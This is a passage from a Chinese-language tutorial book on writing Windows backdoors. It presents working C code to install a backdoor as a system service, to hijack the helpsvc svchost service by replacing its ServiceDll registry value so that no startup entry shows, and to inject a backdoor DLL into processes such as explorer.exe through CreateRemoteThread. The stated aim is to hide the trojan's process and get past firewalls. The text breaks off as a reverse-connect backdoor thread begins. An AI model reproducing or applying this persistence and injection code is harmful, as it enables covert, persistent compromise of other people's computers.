            CloseServiceHandle(schSCManager);
            return 0;
        }
    }

    // 启动服务
    if (StartService(schService, 0, NULL) == 0)
    {
        dwErrorCode = GetLastError();

        // 服务正在运行
        if (dwErrorCode == ERROR_SERVICE_ALREADY_RUNNING)
        {
            printf("StartService Error ! \n");
            CloseServiceHandle(schSCManager);
            CloseServiceHandle(schService);
            return 0;
        }
    }

    // 查询服务状态
    while (QueryServiceStatus(schService, &InstallServiceStatus) != 0)
    {
        // 服务是否在初始化阶段
        if (InstallServiceStatus.dwCurrentState == SERVICE_START_PENDING)
        {
            Sleep(100);
        }
        else
        {
            break;
        }
    }

    // 查询服务状态，看看是否启动成功
    if (InstallServiceStatus.dwCurrentState != SERVICE_RUNNING)
    {
        ...
        printf("Install service Failed");
        ...
    }
    else
    {
        printf("Install service Successed");
    }

    // 关闭数据库句柄
    CloseServiceHandle(schSCManager);
    // 关闭服务句柄
    CloseServiceHandle(schService);
    return 1;
}
```

实现了创建和启动服务之后，我们要完成服务配置程序的另一个部分：删除服务。这部分相比创建、启动服务要简单得多，只需要调用 `QueryServiceStatus` 查询服务状态，假如服务正在运行则调用 `ControlService` 函数停止服务，然后调用 `DeleteService` 函数删除服务即可；假如服务处于停止状态，则直接调用 `DeleteService` 函数删除服务。

这里有两个 API 函数我们没有接触过。下面就来学习下这两个 API 函数，首先来看看 `ControlService` 函数的原型：

```c
BOOL ControlService(
    SC_HANDLE hService,
    DWORD dwControl,
    LPSERVICE_STATUS lpServiceStatus
);
```

`ControlService` 函数直接向服务程序的控制处理函数发送控制码，来控制服务的运行状态。

`hService` 参数指向服务的句柄。

`dwControl` 参数指定要发送的控制代码，假如要停止服务，应发送 `SERVICE_CONTROL_STOP`。

`lpServiceStatus` 参数用于返回服务的状态。

此函数调用成功返回 `TRUE`，否则返回 `FALSE`。

还有一个函数是 `DeleteService`，此函数用来删除一个服务。`DeleteService` 函数只有一个参数，它指向要删除服务的句柄。函数执行成功返回 `TRUE`，否则返回 `FALSE`。

删除服务部分代码如下所示：

```c
int RemoveService()
{
    SC_HANDLE schSCManager;
    SC_HANDLE schService;
    SERVICE_STATUS NServiceStatus;

    // 打开服务控制管理器数据库
    schSCManager = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (schSCManager == NULL)
        return 0;

    // 打开服务
    schService = OpenService(schSCManager, "MyDoor", SERVICE_ALL_ACCESS);
    if (schService == NULL)
        return 0;

    // 查询服务状态
    QueryServiceStatus(schService, &NServiceStatus);

    // 如果服务正在运行就停止服务
    if (NServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
        ControlService(schService, SERVICE_CONTROL_STOP, &NServiceStatus);
    }

    // 删除服务
    if (DeleteService(schService))
    {
        printf("remove service Successed");
        // 关闭打开的句柄
        CloseServiceHandle(schSCManager);
        CloseServiceHandle(schService);
        return 0;
    }
    else
    {
        printf("remove service Failed");
        // 关闭打开的句柄
        CloseServiceHandle(schSCManager);
        CloseServiceHandle(schService);
        return 0;
    }
}
```

##### 服务控制部分

到这里我们的服务配置部分终于编写完成了，接着就是服务控制部分。这部分相对于服务配置部分要简单得多，其实它就是一个回调函数：外部程序传送控制命令给这个函数的 `dwCode` 参数，然后此函数的任务就是通过调用 `SetServiceStatus` 函数改变服务的状态。

这部分的具体代码如下：

```cpp
void WINAPI ServiceControl(DWORD dwCode)
{
    switch (dwCode)
    {
        // 服务暂停
        case SERVICE_CONTROL_PAUSE:
            ServiceStatus.dwCurrentState = SERVICE_PAUSED;
            break;

        // 服务继续
        case SERVICE_CONTROL_CONTINUE:
            ServiceStatus.dwCurrentState = SERVICE_RUNNING;
            break;

        // 服务停止
        case SERVICE_CONTROL_STOP:
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED;
            ServiceStatus.dwWin32ExitCode = 0;
            ServiceStatus.dwCheckPoint    = 0;
            ServiceStatus.dwWaitHint      = 0;

            // 设置服务状态
            if (SetServiceStatus(ServiceStatusHandle, &ServiceStatus) == 0)
            {
                ...
                OutputDebugString("SetServiceStatus in ServiceControl in Switch Error \n");
                ...
            }
            return;

        case SERVICE_CONTROL_INTERROGATE:
            break;

        default:
            break;
    }

    // 设置服务状态
    if (SetServiceStatus(ServiceStatusHandle, &ServiceStatus) == 0)
    {
        OutputDebugString("SetServiceStatus in ServiceControl out Switch Error \n");
    }
    return;
}
```

`ServiceControl` 函数并不需要程序来调用，当服务控制管理器收到控制代码后，系统自然会调用 `ServiceControl` 函数。

##### 服务主函数与调度入口

最后剩下的就只有服务部分代码了，这一部分也是挺简单。首先调用 `RegisterServiceCtrlHandler` 函数注册服务控制函数（服务控制部分的 `ServiceControl` 函数），然后调用 `SetServiceStatus` 设置服务为运行状态。之后调用 `CreateThread` 函数开启线程，用作执行后门代码。

这里我们又接触到了一个新的 API 函数：`RegisterServiceCtrlHandler`。此函数用于通知 SCM 的 CtrlHandler 回调函数（`ServiceControl` 函数）的地址。此函数原型如下：

```c
SERVICE_STATUS_HANDLE RegisterServiceCtrlHandler(
    LPCTSTR lpServiceName,
    LPHANDLER_FUNCTION lpHandlerProc
);
```

`lpServiceName` 参数指向服务的名称。

`lpHandlerProc` 参数指向服务控制函数（`ServiceControl` 函数）的地址。

`RegisterServiceCtrlHandler` 函数返回一个 `SERVICE_STATUS_HANDLE`，这是一个 32 位句柄，SCM 用它来唯一确定这个服务。当这个服务需要把它当时的状态报告给 SCM 的时候，就必须把这个句柄传给需要它的 Win32 函数。

这部分的具体代码如下：

```c
void WINAPI ServiceMain(DWORD dwArgc, LPTSTR *lpszArgv)
{
    HANDLE hThread;
    // 填写 SERVICE_STATUS 结构
    ServiceStatus.dwServiceType             = SERVICE_WIN32;
    ServiceStatus.dwCurrentState            = SERVICE_START_PENDING;
    ServiceStatus.dwControlsAccepted        = SERVICE_ACCEPT_STOP |
                                              SERVICE_ACCEPT_PAUSE_CONTINUE;
    ServiceStatus.dwServiceSpecificExitCode = 0;
    ServiceStatus.dwWin32ExitCode           = 0;
    ServiceStatus.dwCheckPoint              = 0;
    ServiceStatus.dwWaitHint                = 0;

    // 注册服务控制函数
    ServiceStatusHandle = RegisterServiceCtrlHandler("MyDoor", ServiceControl);
    ...
    if (ServiceStatusHandle == 0)
    {
        OutputDebugString("RegisterServiceCtrlHandler Error !\n");
        return;
    }

    ServiceStatus.dwCurrentState = SERVICE_RUNNING;
    ServiceStatus.dwCheckPoint   = 0;
    ServiceStatus.dwWaitHint     = 0;

    // 设置服务状态
    if (SetServiceStatus(ServiceStatusHandle, &ServiceStatus) == 0)
    {
        OutputDebugString("SetServiceStatus Error !\n");
        return;
    }

    // 启动后门线程
    hThread = CreateThread(NULL, 0, RunService, NULL, 0, NULL);
    if (hThread == NULL)
    {
        OutputDebugString("CreateThread Error !\n");
    }
    return;
}
```

从上面的代码中可以看到，`CreateThread` 函数中的线程函数为 `RunService`。在此线程函数中可以实现我们的后门功能，在本实例中使用了零管道正向连接后门，这样我们的后门就以服务的方式启动了。

现在服务的几个部分我们都实现了，但是我们知道 VC++6.0 中程序的入口点函数不是 `main` 就是 `WinMain`。也就是说，我们的程序以系统服务方式运行后，还是从 `main` 或 `WinMain` 开始执行，那么怎么让程序去执行 `ServiceMain` 函数呢？必须在程序入口点函数处调用 `StartServiceCtrlDispatcher` 函数。此函数通过连接服务控制管理器，开始控制调度程序线程，也就是启动服务函数（`ServiceMain` 函数）。

`StartServiceCtrlDispatcher` 函数只有一个参数，此参数指向一个 `SERVICE_TABLE_ENTRY` 结构数组。这个结构数组记录了这个服务程序里所包含的所有服务名称和服务进入点函数。在本程序的 `main` 函数中还包含了安装服务和卸载服务部分调用。具体代码如下：

```cpp
int main(int argc, char* argv[])
{
    SERVICE_TABLE_ENTRY DispatchTable[] =
    {
        // 服务程序的名称和入口点
        {"MyDoor", ServiceMain},
        // SERVICE_TABLE_ENTRY 结构必须以 NULL 结束
        {NULL, NULL}
    };

    // 连接服务控制管理器，开始控制调度程序线程
    StartServiceCtrlDispatcher(DispatchTable);

    if (argc == 2)
    {
        if (!strcmp(argv[1], "-install"))
        {
            // ...
        }
    }
}
```

```cpp
// 创建服务
InstallService();

if (!stricmp(argv[1], "-remove"))
{
    // 删除服务
    RemoveService();
}

return 0;
```

现在整个服务程序的执行流程我们已经清楚地知道了：进入 Main 函数，通过 StartServiceCtrlDispatcher 函数连接服务控制管理器，开始控制调度程序线程，启动服务入口点函数（ServiceMain 函数），在服务入口点函数中注册服务控制函数（ServiceControl 函数），然后启动后门代码。

服务控制函数是个回调函数，会一直接收控制指令，改变服务的状态。这样我们的服务启动功能就实现了，源码在光盘“第二章\自启动功能的实现\系统服务启动\autorun”下。

## 2.8.4 SVChost.EXE 加载启动

Windows 系统服务分为独立进程和共享进程两种，在 Windows NT 中只有服务控制管理器 SCM（Services.exe）有多个共享服务。随着系统内置服务的增加，在 Windows 2000 中微软又把很多服务做成共享方式，由 SVChost.exe 启动。本节就是要利用 Windows 的这个特性来实现自启动。一般 Windows 2000 中有 2 个 SVChost 进程，而 Windows XP 中有 4 个以上 SVChost 进程。

既然要实现用 SVChost.exe 共享服务，那么一个 SVChost 进程又是怎么实现启动多个服务的呢？一般 SVChost 本身只是作为服务宿主，并不实现任何服务功能。需要 SVChost 启动的服务以动态链接库形式实现，在安装这些服务时，把服务的可执行程序指向 SVChost，启动这些服务时由 SVChost 调用相应服务的动态链接库来启动服务，而一个 SVChost 进程可以调用多个动态链接库。

那么 SVChost 如何知道某一服务是由哪个动态链接库负责的呢？这不是由服务的可执行程序路径中的参数部分提供的，而是服务在注册表中的参数设置的。注册表中服务下面有一个 Parameters 子键，其中的 ServiceDll 表明该服务由哪个动态链接库负责。并且所有这些服务的动态链接库都必须要导出一个 ServiceMain() 函数，用来处理服务任务。

注册表中服务的信息保存在：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
```

下，如图 22 所示。其中 ACPI 等键的名称都和对应的服务名相同，Parameters 子键中 ServiceDll 的值即是相对应的 DLL 的名称。

既然这些服务是使用共享进程方式由 SVChost 启动的，为什么系统中会有多个 SVChost 进程呢？这是因为系统把这些服务分为几组，同组服务共享一个 SVChost 进程，不同组服务使用多个 SVChost 进程，组的区别是由服务的可执行程序后边的参数决定的。

SVChost 的所有组和组内的所有服务都在注册表的如下位置：

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SVChost
```

例如 Windows 2000 共有 4 组：rpcss、netsvcs、wugroup、BITSgroup，其中最多的就是  
netsvcs=REG_MULTI_SZ:EventSystem、Ias、Iprip、Irmon、Netman、Nwsapagent、Rasauto、Rasman、RemoteAccess、SENS、SharedAccess、TapiSrv、Ntmssvc、wzcsvc...

在启动一个由 SVChost.exe 负责的服务时，服务管理器如果遇到可执行程序内容 ImagePath 已经存在于服务管理器的映像库中，就不再启动第 2 个 SVChost 进程，而是直接启动服务，这样就实现了多个服务共享一个 SVChost 进程。

还有要注意的是，SVChost 已经调用了 StartServiceCtrlDispatcher 来调度服务线程，因此我们在实现动态链接库时就不用再调用了。还有动态链接库接收的都是 Unicode 字符串。

那么我们怎么利用 SVChost 来启动我们的程序呢？从上面的描述可知，为了隐蔽我们不需要建立一个由 SVChost 启动的服务，只需要替换已有服务的 ServiceDll 键值所指向的 DLL，并且将此服务设为自动启动，这样在系统中就没有启动项了。

接下去就是要编写用于替换的 DLL。从上面的讲解可以知道，DLL 文件只需要包含一个服务控制函数、一个服务函数。由于服务函数要被 SVChost 调用，所以必须是导出函数，并且其参数要能接收 Unicode 字符串。为了修改注册表实现替换服务（安装后门）和还原服务（删除后门），还需要两个导出函数 Install() 和 Remove()，我们只需要利用 rundll32.exe 调用这两个函数，来安装和卸载服务即可。

> **编程训练工**
>
> **Rundll32.exe 的使用**  
> Rundll32.exe 可以调用 DLL 中的导出函数：`rundll32.exe dll文件名 函数名 函数参数(可选)`。  
> 比如安装后门可以在 cmd 中执行 `Rundll32.exe autorun.dll Install`，当然 autorun.dll 要复制到 system32 目录下。

程序的思路非常简单，并且 DLL 的实现和服务程序又是非常相似，但是还有一点必须要注意，ServiceDll 键值的类型是可扩充字符串值（REG_EXPAND_SZ），而不是以往我们接触到的字符串值（REG_SZ）。所以我们在 CreateStringReg 函数中也必须进行一些修改，把原来的  
`lRet=RegSetValueEx(hKey, ValueName, 0, REG_SZ, (BYTE*)Data, strlen(Data));`  
改成  
`lRet=RegSetValueEx(hKey, ValueName, 0, REG_EXPAND_SZ, (BYTE*)Data, strlen(Data));`。

整个过程比较简单，这里以替换 helpsvc 服务为例，具体代码如下（源码在光盘“第二章\自动功能的实现\SVChost.exe 启动\autorun”下）：

```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>

SERVICE_STATUS ServiceStatus;
SERVICE_STATUS_HANDLE ServiceStatusHandle;
DWORD WINAPI CmdService(LPVOID lpParam)
{
    // ......后门代码
    return 0;
}
```

```c
// 服务控制函数
void WINAPI ServiceControl(DWORD dwCode)
{
    switch(dwCode)
    {
    // 暂停服务
    case SERVICE_CONTROL_PAUSE:
        ServiceStatus.dwCurrentState = SERVICE_PAUSED;
        break;

    // 继续执行服务
    case SERVICE_CONTROL_CONTINUE:
        ServiceStatus.dwCurrentState = SERVICE_RUNNING;
        break;

    // 停止服务
    case SERVICE_CONTROL_STOP:
        ServiceStatus.dwCurrentState = SERVICE_STOPPED;
        ServiceStatus.dwWin32ExitCode = 0;
        ServiceStatus.dwCheckPoint = 0;
        ServiceStatus.dwWaitHint = 0;
        // 设置服务状态
        if(SetServiceStatus(ServiceStatusHandle, &ServiceStatus) == 0)
        {
            OutputDebugString("SetServiceStatus Error!\n");
        }
        return;

    case SERVICE_CONTROL_INTERROGATE:
        break;

    default:
        break;
    }

    if(SetServiceStatus(ServiceStatusHandle, &ServiceStatus) == 0)
    {
        OutputDebugString("SetServiceStatus Error!\n");
    }
    return;
}

// 服务函数
void __stdcall ServiceMain(int argc, wchar_t* argv[])
{
    HANDLE hThread;
    ServiceStatus.dwServiceType = SERVICE_WIN32;
    ServiceStatus.dwCurrentState = SERVICE_START_PENDING;
    ServiceStatus.dwControlsAccepted = SERVICE_ACCEPT_STOP
        | SERVICE_ACCEPT_PAUSE_CONTINUE;
    ServiceStatus.dwServiceSpecificExitCode = 0;
    ServiceStatus.dwWin32ExitCode = 0;
    ServiceStatus.dwCheckPoint = 0;
    ServiceStatus.dwWaitHint = 0;

    // 得到服务进程名
    char sVCname[256];
    wcstombs(sVCname, argv[0], sizeof(sVCname));

    // 注册服务控制函数
    ServiceStatusHandle = RegisterServiceCtrlHandler(sVCname, ServiceControl);
    if(ServiceStatusHandle==0)
    {
        OutputDebugString("RegisterServiceCtrlHandler Error !\n");
        return;
    }

    ServiceStatus.dwCurrentState = SERVICE_RUNNING;
    ServiceStatus.dwCheckPoint   = 0;
    ServiceStatus.dwWaitHint     = 0;
    // 设置服务为运行状态
    if(SetServiceStatus(ServiceStatusHandle, &ServiceStatus)==0)
    {
        OutputDebugString("SetServiceStatus Error !\n");
        return;
    }

    // 启动后门线程
    hThread=CreateThread(NULL, 0, CmdService, NULL, 0, NULL);
    if(hThread==NULL)
    {
        OutputDebugString("CreateThread Error !\n");
    }

    return;
}

// 安装后门
int Install()
{
    char NewDll[52];
    // 得到系统目录
    GetSystemDirectory(NewDll, sizeof(NewDll));
    strcat(NewDll, "\\autorun.dll");
    // 替换dll
    CreateStringReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Services\\helpsVC\\Parameters",
        "ServiceDll", NewDll);

    // 设置为自动启动
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Services\\helpsVC",
        "Start", 2);

    return 0;
}

// 卸载后门
int Remove()
{
    SC_HANDLE            schSCManager;
    SC_HANDLE            schService;
    SERVICE_STATUS       NServiceStatus;

    // 打开服务控制管理器数据库
    schSCManager=OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if(schSCManager==NULL)
    {
        OutputDebugString("OpenSCManager  error. \n");
        return 0;
    }

    // 打开helpsVC服务
    schService=OpenService(schSCManager, "helpsVC", SERVICE_ALL_ACCESS);
    if (schService==NULL)
    {
        OutputDebugString("OpenService  error. \n");
        return 0;
    }

    // 查看服务运行状况
    QueryServiceStatus(schService, &NServiceStatus);
    // 假如处于运行状态则停止该服务
    if (NServiceStatus.dwCurrentState==SERVICE_RUNNING)
    {
        ControlService(schService, SERVICE_CONTROL_STOP, &NServiceStatus);
    }

    // 还原 ServiceDll 键值
    char *OldDll="%WINDIR%\\PCHealth\\HelpCtr\\Binaries\\pchsvc.dll";
    CreateStringReg(HKEY_LOCAL_MACHINE,
    "SYSTEM\\CurrentControlSet\\Services\\helpsVC\\Parameters",
    "ServiceDll", OldDll);
    return 0;
}

BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
        // 当动态链接库将要被卸载时，停止服务
        case DLL_PROCESS_DETACH:
        {
            ServiceControl(SERVICE_CONTROL_STOP);
            break;
        }
        default:
            break;
    }
    return TRUE;
}
```

至此四种启动方式已学习完毕了，现在我们就可以写出拥有不错生存能力的后门了。

## 第三章 高级系统后门编程实现

- 远程线程技术
- 端口复用后门

### 3.1 远程线程技术

- 前置知识：C/C++基础、线程编程基础、DLL编程基础
- 难度：难
- 编译环境：VC6.0
- 测试环境：Windows XP

前面我们已经具体讲述了后门的编程技术，学到这里，读者们要编写一个功能完善的后门已经不成问题了。但是我们的后门还不够隐蔽，还不具备强大的生存能力，除了运用第二章中的 svchost.exe 启动外，用其它的方式写的木马都是存在自身进程的。并且在防火墙遍布的今天，就算是反向连接后门的穿墙能力也是有限的。很多防火墙都对进程做了过滤，没有在防火墙进程规则里的程序是不能对网络进行访问的。因此我们就算给服务器安上后门也没法对服务器实施控制，并且还提高了被发现的可能性。这一小节我们就来实现后门隐藏进程和穿越防火墙。

#### 3.1.1 初步的远程线程注入技术

> **编程贴士**
>
> **什么是远程线程？**  
> 远程线程中的远程并不是指跨越计算机的，而是指跨越进程的。理解了这个概念，远程线程技术也就好理解了，远程线程就是指进程 A 调用代码在进程 B 中创建的一个新线程。

现在我们就来假设有两个进程，进程 A 和进程 B。进程 A 是系统的正常进程，进程 B 是木马进程。如果进程 B 在进程 A 中启动一个新线程，用这个新线程来实现木马的主体功能，当新线程启动后，B 进程就自动退出。这样，在系统中就没有木马进程了，并且此时新线程访问网络是通过系统正常进程的，因此也就不会被防火墙阻拦了。

那么我们怎样才能创建一个远程线程呢？微软提供给我们 CreateRemoteThread 函数来实现这一功能，这个函数可以在其它进程中创建新线程。函数的原型如下：

```c
HANDLE CreateRemoteThread(
    HANDLE hProcess,                      // 要创建远程线程的进程句柄
    LPSECURITY_ATTRIBUTES lpThreadAttributes, // 用于定义新线程的安全属性，这里设NULL即可
    SIZE_T dwStackSize,                   // 初始化堆栈大小，NULL为默认大小
    LPTHREAD_START_ROUTINE lpStartAddress,// 线程开始的函数地址
    LPVOID lpParameter,                   // 线程函数参数
    DWORD dwCreationFlags,                // 参数表示创建线程后线程的运行状态
    LPDWORD lpThreadId                    // 返回线程ID，如果传NULL则不返回
);
```

从这个函数的参数中我们可以看出，它是 CreateThread 函数的扩充，它只比 CreateThread 函数多了一个 hProcess 参数，此参数指向了要创建新线程的进程句柄。但是……`lpStartAddress` 参数这里必须要说明下，它所指向的线程函数地址并不是自身进程内存中的函数地址，而是目标进程内存中的函数地址，这也是留给我们要解决的一个问题。这里我们并不是正面解决这个问题，而是用某种方式来绕过这个问题。下面我们先来学习下 `LoadLibrary` 函数，其原型如下：

```c
HMODULE WINAPI LoadLibrary(
    LPCTSTR lpLibFileName
);
```

此函数在第一章中已经使用过了，用来加载 DLL 类库。我们再来看一下线程函数的原型：

```c
DWORD WINAPI Thread(
    LPVOID lpParam
);
```

大家对比下可以看到这两个函数都只有一个参数，并且返回值大小也是一样的，函数调用方式也是一样的。那么我们就可以把 `LoadLibrary` 函数作为线程函数，用 `CreateRemoteThread` 函数在系统正常进程中开启新线程，加载后门功能的 DLL 文件。

因为 DLL 文件被加载时会执行 `DllMain` 中的代码，所以我们只要在 `DllMain` 函数中写入我们的后门代码就可以了。当远程线程启动，`LoadLibrary` 函数加载我们的后门 DLL 文件时，我们的后门代码也就执行了。

并且 `LoadLibrary` 是 `KERNEL32.DLL` 文件的导出函数，每个系统进程都会加载这个 DLL。因此 `LoadLibrary` 函数的代码就会映射在每个系统进程中，也就不用我们把这个函数的代码写到目标进程内存空间了。这样我们就简单地绕过了上面这个问题。

但是 `lpStartAddress` 参数是指向线程函数地址的，那么我们怎么得到 `LoadLibrary` 函数地址呢？这个也很简单，我们可以得到自身进程中的 `LoadLibrary` 函数地址。由于 `KERNEL32.DLL` 是系统 DLL，不同进程中同一个函数的地址是相同的，本进程的 `LoadLibrary` 函数地址也可以用于其他进程。代码如下：

```c
PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)
    GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
```

> **编程小贴士：GetModuleHandle 函数**  
> 此函数用于获取一个应用程序或动态链接库的模块句柄，它只有一个参数，此参数指向某个模块的文件名。函数调用成功则返回模块句柄，否则返回 0。

但是目前还有一个问题需要我们解决，大家注意到 `CreateRemoteThread` 函数的 `lpParameter` 参数没有？它是指向线程函数的参数。现在我们以 `LoadLibrary` 函数为线程函数，那么它的参数就应该是木马 DLL 的全路径文件名。此参数也是要存在于目标进程内存中的，没其他办法了，这里我们只能用写入内存来实现。

在写入内存之前，我们首先要让系统分配一个内存空间，这里我们用 `VirtualAllocEx` 函数来实现，此函数原型如下：

```c
LPVOID VirtualAllocEx(
    HANDLE hProcess,
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD flAllocationType,
    DWORD flProtect
);
```

- `hProcess` 参数指向要申请内存空间的目标进程句柄。  
- `lpAddress` 参数指向要申请内存空间的目标地址，一般设为 `NULL`。  
- `dwSize` 参数指向要申请的内存空间大小。  
- `flAllocationType` 参数指向内存空间的属性，要保留还是提交给物理存储器，这里传递 `MEM_COMMIT`，设为保留即可。  
- `flProtect` 参数指向内存空间的保护属性，这里传递 `PAGE_READWRITE`，可读写即可。  

如果函数调用成功则返回申请内存空间的首地址。申请了内存空间之后，就可以向此内存写入木马 DLL 全路径文件名字符串了。要实现这一过程，需要调用 `WriteProcessMemory` 函数，这个函数原型如下：

```c
BOOL WriteProcessMemory(
    HANDLE hProcess,
    LPVOID lpBaseAddress,
    LPVOID lpBuffer,
    DWORD nSize,
    LPDWORD lpNumberOfBytesWritten
);
```

- `hProcess` 参数指向要写入进程内存的进程句柄。  
- `lpBaseAddress` 参数表示要写入内存的起始地址，由 `VirtualAllocEx` 函数返回。  
- `lpBuffer` 参数指向要写入数据的缓冲区。  
- `nSize` 参数表示要写入的字节数。  
- `lpNumberOfBytesWritten` 参数表示实际写入的字节数。  

函数写入内存成功返回 `TRUE`，否则返回 `FALSE`。好了，下面我们可以试着来写这部分代码了，具体如下：

```c
char *pszLibFileRemote;

// 申请内存空间
pszLibFileRemote = (char *)VirtualAllocEx(
    hRemoteProcess,
    NULL,
    strlen(DllFullPath) + 1,
    MEM_COMMIT,
    PAGE_READWRITE
);
if (pszLibFileRemote == NULL) {
    printf("VirtualAllocEx error\n");
    return FALSE;
}

// 写入DLL完整路径文件名
if (WriteProcessMemory(
        hRemoteProcess,
        pszLibFileRemote,
        (void *)DllFullPath,
        strlen(DllFullPath) + 1,
        NULL) == 0) {
    printf("WriteProcessMemory error\n");
    return FALSE;
}
```

到这里远程线程技术最主要的问题已经解决了，那么我们来看看具体编程流程吧，如图 1 所示。从图 1 中我们可以看到，最后三步我们已经实现了。下面我们就来学习下其余几部分。

首先是第一步，提升后门自身进程权限，这里要把自身进程权限调整为调试权限。这一步其实是为第二步服务的，假如我们要注入的是系统进程，如果没有第一步，当你调用 `OpenProcess` 函数时，就会返回 `NULL`。

提升后门自身进程权限的代码是一个模板函数，具体代码如下：

```c
int EnableDebugPriv(const char *name)
{
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID luid;

    // 打开进程令牌
    if (!OpenProcessToken(GetCurrentProcess(),
        TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY,
        &hToken))
    {
        printf("OpenProcessToken error\n");
        return 1;
    }

    // 获得进程本地唯一ID
    if (!LookupPrivilegeValue(NULL, name, &luid))
    {
        printf("LookupPrivilege error!\n");
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    tp.Privileges[0].Luid = luid;

    // 调整进程权限
    if (!AdjustTokenPrivileges(hToken, 0, &tp, sizeof(TOKEN_PRIVILEGES),
        NULL, NULL))
    {
        printf("AdjustTokenPrivileges error!\n");
        return 1;
    }

    return 0;
}
```

要将自身进程提升为调试权限可以这样调用：

```c
EnableDebugPriv(SE_DEBUG_NAME);
```

也许在编程过程中你注入的进程不是系统进程，比如你要注入 IE 进程，那么在注入进程前调用这个函数也是不会出错的。

下面就可以调用 `OpenProcess` 函数打开目标进程了。不知道大家还记不记得，`OpenProcess` 函数的第一个参数指向了对进程对象的访问权限。这里由于要创建远程线程，为了方便，直接设成：**`PROCESS_ALL_ACCESS`，所有权限**。

有了上面的基础，我们就可以轻松写出注入进程的函数了，代码如下：

```c
BOOL InjectDll(const char *DllFullPath, const DWORD dwRemoteProcessId)
{
    HANDLE hRemoteProcess;
    // 获得调试权限
    ...
}
```

```cpp
if (!EnableDebugPriv(SE_DEBUG_NAME))
{
    printf("add privilege error!");
    return FALSE;
}

// 打开目标进程
if ((hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS,
    FALSE, dwRemoteProcessId)) == NULL)
{
    printf("OpenProcess error\n");
    return FALSE;
}

char *pszLibFileRemote;

// 申请存放dll文件名的路径
pszLibFileRemote = (char *)VirtualAllocEx(hRemoteProcess,
    NULL, lstrlen(DllFullPath) + 1,
    MEM_COMMIT, PAGE_READWRITE);
if (pszLibFileRemote == NULL)
{
    printf("VirtualAllocEx error\n");
    return FALSE;
}

// 把dll的完整路径写入到内存
if ((WriteProcessMemory(hRemoteProcess,
    pszLibFileRemote, (void *)DllFullPath, lstrlen(DllFullPath) + 1, NULL)) == 0)
{
    printf("WriteProcessMemory error\n");
    return FALSE;
}

// 得到LoadLibraryA函数地址
PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)
    GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
if (pfnStartAddr == NULL)
{
    printf("GetProcAddress error\n");
    return FALSE;
}

HANDLE hRemoteThread;

// 启动远程线程
if ((hRemoteThread = CreateRemoteThread(hRemoteProcess, NULL, 0,
    pfnStartAddr, pszLibFileRemote, 0, NULL)) == NULL)
{
    printf("CreateRemoteThread error\n");
    return FALSE;
}

return TRUE;
```

这个函数有两个参数，`DllFullPath` 参数指向后门 DLL 全文件名，`dwRemoteProcessId` 参数指向需要注入进程的 ID。此函数调用成功返回 `TRUE`，否则返回 `FALSE`。

不过到目前为止我们的程序并没有完成，大家想想，现在要传递给这个函数一个进程 ID，比如要注入 `explorer.exe` 进程，那么就要传递给此函数 `explorer.exe` 进程的 ID。

每次启动 `explorer.exe` 时，它所对应的进程 ID 都是不一样的，所以我们就要通过进程名来得到进程 ID 了。

若想通过进程名得到进程 ID，我们只要把第一章中列举进程的代码稍微修改一下就可以了，具体如下：

```c
DWORD GetProcessID(char *ProcessName)
{
    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(pe32);

    // 获取系统内所有进程快照
    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == INVALID_HANDLE_VALUE)
    {
        printf("CreateToolhelp32Snapshot error!");
        return 0;
    }

    // 枚举表中的第一个进程
    BOOL bProcess = Process32First(hProcessSnap, &pe32);
    while (bProcess)
    {
        // 比较找到的进程名和我们要查找的进程名，一样则返回进程id
        if (strcmp(strupr(pe32.szExeFile), strupr(ProcessName)) == 0)
            return pe32.th32ProcessID;

        // 继续查找
        bProcess = Process32Next(hProcessSnap, &pe32);
    }

    CloseHandle(hProcessSnap);
    return 0;
}
```

这个函数只有一个参数，它是指向要查找进程名的字符串指针，调用成功返回进程 ID，否则返回 0。

#### 3.1.2 编写远程线程注入后门

通过前面的讲解，相信大家已经学会远程线程技术了。所谓学以致用嘛，这一小节就来教大家实现远程线程注入的反向连接后门。从前一小节中我们知道，假如我们的后门运用了远程线程技术，那么当然就没有进程，而且访问网络也是通过系统正常进程来完成的，当然也就能穿越防火墙了。下面我们就来一步一步地实现远程线程注入的反向连接后门。

首先我们必须建立一个 DLL 工程，然后把后门代码封装成一个函数，写入 DLL 工程。这里以单管道反向连接后门为例，然后我们就在 `DllMain` 函数中调用这个函数。

这个思路非常正确，但是在实际操作过程中你会发现，你注入的进程被中断了。这是因为这个 DLL 中的 `DllMain` 函数始终没有返回而导致其主线程中断。为了解决这个问题，我们只能把这个后门的功能代码写成一个线程函数，然后在 `DllMain` 函数中调用 `CreateThread` 函数创建并启动这个线程。主体代码如下（源码在光盘“\第三章\BackDoorDll”下）：

```c
DWORD WINAPI DoorThread(LPVOID lpParam)
```

```cpp
char wMessage[512] = "\r\n============================== BackDoor by 认真\r\n==============================\r\n";

BYTE minorVer = 2;
BYTE majorVer = 2;
WSADATA wsaData;
WORD sockVersion = MAKEWORD(minorVer, majorVer);
if (WSAStartup(sockVersion, &wsaData) != 0)
    return 0;

